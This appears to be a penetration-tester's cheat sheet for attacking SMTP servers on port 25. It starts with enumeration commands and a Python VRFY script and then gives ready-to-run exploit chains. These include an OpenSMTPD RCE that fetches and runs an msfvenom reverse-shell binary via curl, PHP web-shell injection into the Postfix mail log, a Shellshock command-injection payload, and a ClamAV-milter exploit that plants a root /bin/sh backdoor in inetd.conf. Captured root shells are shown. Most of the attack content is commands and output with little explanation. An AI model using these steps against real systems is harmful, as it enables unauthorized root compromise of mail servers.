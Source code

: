 # smtp 25

## <a href='https://www.ionos.com/digitalguide/e-mail/technical-matters/smtp/' target="blank">What is SMTP?</a>

## Server Connection

``` bash
$ nc -nvC $ip 25
$ telnet $ip 25

VRFY root
EXPN
```

## SMTP Commands

``` bash
$ helo admin
$ mail from:<>
$ rcpt to:<nobody>
$ data
hades
.
```

## Scanning Vul

``` bash
$ nmap $ip -p 25 --script=smtp-*
```

``` bash
$ sudo msfconsole -q -x "setg RHOSTS $ip;
use auxiliary/scanner/smtp/smtp_enum; run;
use auxiliary/scanner/smtp/smtp_relay; run;
use auxiliary/scanner/smtp/smtp_version; run;
exit"
```

## Scripting

=== "Scripting"

	``` bash
	python3 smtp-vrfy.py <username>
	```

=== "smtp-vrfy.py"

	``` python
	#!/usr/bin/python3

	import socket
	import sys

	if len(sys.argv) != 2:
		print("Usage: python3 sys.argv[0] <username>")
		sys.exit(0)

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	connect = s.connect(('192.168.11.131',25))

	banner = s.recv(1024)

	print (banner)

	s.send('VRFY ' + sys.argv[1] + '\r\n')
	result = s.recv(1024)

	print(result)

	s.close()
	```

## OpenSMTPD < 6.6.1 - rce

[https://www.exploit-db.com/exploits/47984](https://www.exploit-db.com/exploits/47984)

``` bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=ip LPORT=25 -f elf > shell.elf
```

``` bash
sudo python3 -m http.server 80
```

``` bash
python3 47984.py ip 25 'curl ip/shell.elf -o /tmp/shell'
python3 47984.py ip 25 'chmod +x /tmp/shell'
python3 47984.py ip 25 '/tmp/shell'
```

``` bash
sudo nc -nvlp 25                     
listening on [any] 25 ...
connect to [ip] from (UNKNOWN) [ip] 57356
id
uid=0(root) gid=0(root) groups=0(root)
```

## LFI to rce

[https://github.com/leecybersec/walkthrough/tree/master/vulnhub/wintermute-1-straylight-smtp_log_file_inclusion-screen_4.5.0#foothold](https://github.com/leecybersec/walkthrough/tree/master/vulnhub/wintermute-1-straylight-smtp_log_file_inclusion-screen_4.5.0#foothold)

==> Postfix mail log: `/var/log/mail.log`

``` bash
$ nc -nC ip 25
220 straylight ESMTP Postfix (Debian/GNU)
mail from: "hades <?php system($_GET['cmd']); ?> hades"
250 2.1.0 Ok
rcpt to: "root@localhost"
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
.
250 2.0.0 Ok: queued as D4E985515
quit
221 2.0.0 Bye
```

## Postfix SMTP 4.2.x < 4.2.48 - 'Shellshock' Remote Command Injection

[https://www.exploit-db.com/exploits/34896](https://www.exploit-db.com/exploits/34896)

``` bash
smbmap -u '/=`ping -c 2 ip`' -H 192.168.171.39
```

## ClamAV Milter 0.92.2 - Blackhole-Mode (Sendmail)

[https://www.exploit-db.com/exploits/4761](https://www.exploit-db.com/exploits/4761)

``` bash
perl 4761.pl ip
Sendmail w/ clamav-milter Remote Root Exploit
Copyright (C) 2007 Eliteboy
Attacking ip...
220 localhost.localdomain ESMTP Sendmail 8.13.4/8.13.4/Debian-3sarge3; Mon, 26 Jul 2021 09:42:48 -0400; (No UCE/UBE) logging access from: [ip](FAIL)-ip]
250-localhost.localdomain Hello [ip], pleased to meet you
250-ENHANCEDSTATUSCODES
250-PIPELINING
250-EXPN
250-VERB
250-8BITMIME
250-SIZE
250-DSN
250-ETRN
250-DELIVERBY
250 HELP
250 2.1.0 <>... Sender ok
250 2.1.5 <nobody+"|echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf">... Recipient ok
250 2.1.5 <nobody+"|/etc/init.d/inetd restart">... Recipient ok
354 Enter mail, end with "." on a line by itself
250 2.0.0 16QDgmnb004808 Message accepted for delivery
221 2.0.0 localhost.localdomain closing connection
```

``` bash
$ nc -nv ip 31337 
(UNKNOWN) [ip] 31337 (?) open
id
uid=0(root) gid=0(root) groups=0(root)
```